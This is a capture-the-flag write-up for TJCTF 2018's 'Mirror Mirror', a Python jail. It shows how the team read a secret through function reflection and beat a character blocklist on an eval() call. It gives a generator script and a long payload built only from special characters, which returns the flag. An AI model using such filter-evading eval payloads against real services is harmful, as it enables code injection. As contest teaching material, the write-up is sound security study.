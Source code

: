 # Mirror Mirror (Miscellaneous, 89 solved, 100 points)
###### Author: [qrzcn](https://github.com/qrzcn), [capfly](https://github.com/Capfly), [ecurve](https://github.com/Pascalao)

```
If you look closely, you can see a reflection.

nc problem1.tjctf.org 8004
```

Firstly we take a look onto the server and found out that there is a method get_flag(), 
which are to used, because of the greeting message.

```
Hi! Are you looking for the flag? Try get_flag() for free flags. Remember, wrap your input in double quotes. Good luck!
```

Now we playing a little bit around with that function and we get an error, when we type

```python
>>> get_flag("")
Traceback (most recent call last):
  File "<console>", line 1, in <module>
  File "/home/app/problem.py", line 23, in get_flag
    if(eval(input) == super_secret_string):
  File "<string>", line 0
    
    ^
SyntaxError: unexpected EOF while parsing
```

Ok, thats cool! 
We can put something into the eval function, which evaluate our string. 
Now it is time to find out, what are allowed in the console. 
The most functions and modules are deleted in the moment or restricted. 
But we take a look into the description and there is a hint. Use reflection!

Firstly we tried *dir()* and get:

```python
>>> dir()
['__builtins__', '__doc__', '__name__', 'get_flag']
```

Can we take a deeper look into the function with reflection? 
We tried it and yes, we can look into the variables of the *get_flag* function.

```python
>>> get_flag.func_code.co_consts
(None, 'this_is_the_super_secret_string', 48, 57, 65, 90, 97, 122, 44, 95, ' is not a valid character', '%\xcb', "You didn't guess the value of my super_secret_string")
>>> get_flag.func_code.co_varnames
('input', 'super_secret_string', 'each', 'val')
```

Ok, the content of the *super_secret_string* should be the string *this_is_the_super_secret_string*.
But what is with the numbers behind the secret string?
The numbers are ascii characters and we found out, that all characters from a to z and A to Z are restricted.
Also restricted characters are 0 to 9 and the special characters _ and ,.
The conclusion is, that only special character can be used, to type into the function get_flag, expect _ and ,.

But wait, how it is possible to exploit that, if we can not type a string into it?

When you know how the python interpreter works internally it is possible to find a way to do that.
We remembered on a challenge in the past from a clever guy, which used only special characters to
type strings into the console or eval function. That is really cool! ([writeup](http://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape/))

We used the same strategy to generate strings only with special characters. 
As we know from him, we can generate every string with %c%(\<number\>) and we can also compute every number
with a lot of special characters, it is possible to write the string *this_is_the_super_secret_string* 
as input into the eval function. 

We used his brainfuckize function to generate these numbers.

```python
def brainfuckize(nb):
        if nb in [-2, -1, 0, 1]:
            return ["~({}<[])", "~([]<[])","([]<[])",  "({}<[])"][nb+2]
        if nb % 2:
            return "~%s" % brainfuckize(~nb)
        else:
            return "(%s<<({}<[]))" % brainfuckize(nb/2)
```

Now we have to generate the whole string only with special characters. 
This code does it for us:

```python
    string = 'this_is_the_super_secret_string'
    result = ""
    formatter = "`'%\\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%"
    concat = '+'

    for c in string:
        result += formatter + brainfuckize(ord(c)) + concat

    print result[:-1]
```

In general we only used the possibility that we can type *'%c'%(\<number\>)* into the console only with special characters 
and get a character.
And the translation from a number to the special characters are done with the brainfuckize function.
The code with the %\xcb and the special characters behind produce the '%c'%:

```python
`'%\\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%
```

The trick to compute numbers from special characters are that 
```python
{}<[] == True
``` 
and 
```python
[]<[] == False
```

And we know that True is internally a 1 and False a 0.
The special characters ```<``` and ```~``` can be used to perfom bit operations.
With that knowledge it is possible to compute every number only with the characters. 

```python
<< ~ ( )
```

It is the same logic as you learned in mathematical logic that you can build all logic compositions within a NOT and AND.

The program produce the string *'this_is_the_super_secret_string'* only with special characters:

```python
`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%((~(~(~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%
\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xc
b'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb
'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[
{}<[]::~(~({}<[])<<({}<[]))]%~(((((~(({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]
::~(~({}<[])<<({}<[]))]%~(~((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]:
:~(~({}<[])<<({}<[]))]%~((~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(
~({}<[])<<({}<[]))]%~(((((~(({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<
[])<<({}<[]))]%((~(~(~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])
<<({}<[]))]%(((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<(
{}<[]))]%~(~(~(~((~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({
}<[]))]%~(((((~(({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[])
)]%~((~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%
~(~(~(~(~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(
(((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~(~(
~((~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(~(~((~
((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(((((~(({
}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~((~((~({}<[
])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~(~(~((~(~({}<[]
)<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~(((~(~({}<[])<<
({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(~(~((~((~({}<[])<<({}
<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~(~(~((~(~({}<[])<<({}<
[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%((~(~(~((~({}<[])<<({}<[])
)<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(((((~(({}<[])<<({}<[]))<<({
}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~((~((~({}<[])<<({}<[]))<<({}<[
]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%((~(~(~((~({}<[])<<({}<[]))<<({}<[]))
<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(~(~((~((~({}<[])<<({}<[]))<<({}<[]))<<(
{}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({
}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(~(((~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[
]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(((~((~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))
<<({}<[]))<<({}<[]))<<({}<[]))
```

When you put that string into a python console you will get the string *'this_is_the_super_secret_string'*.

The final step is to put the string into the get_flag function:

```python
>>> get_flag("`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%((~(~(~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))
<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<(
{}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({
}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[
]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(((((~(({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`
'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'
%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\x
cb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(((((~(({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[
{}<[]::~(~({}<[])<<({}<[]))]%((~(~(~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<
[]::~(~({}<[])<<({}<[]))]%(((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]:
:~(~({}<[])<<({}<[]))]%~(~(~(~((~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::
~(~({}<[])<<({}<[]))]%~(((((~(({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}
<[])<<({}<[]))]%~((~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])
<<({}<[]))]%~(~(~(~(~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<
<({}<[]))]%((((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<
[]))]%~(~(~(~((~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[
]))]%(~(~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))
]%~(((((~(({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((
~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~(~(
~((~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~(((
~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(~(~((~((~
({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~(~(~((~(~(
{}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%((~(~(~((~({}<
[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(((((~(({}<[])<<
({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~((~((~({}<[])<<({}
<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%((~(~(~((~({}<[])<<({}<[]
))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(~(~((~((~({}<[])<<({}<[]))<
<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~((~(~(~(~({}<[])<<({}<[]))<<
({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(~(((~(~(~({}<[])<<({}<[]))<<({}
<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(((~((~(~({}<[])<<({}<[]))<<({}<[]
))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))")
tjctf{wh0_kn3w_pyth0n_w4s_s0_sl1pp3ry}
```

We get the flag!

Thw whole python script are in the file [exploit.py](https://github.com/Lev9L-Team/ctf/tree/master/2018-08-07_tjctf/mirror_mirror/exploit.py).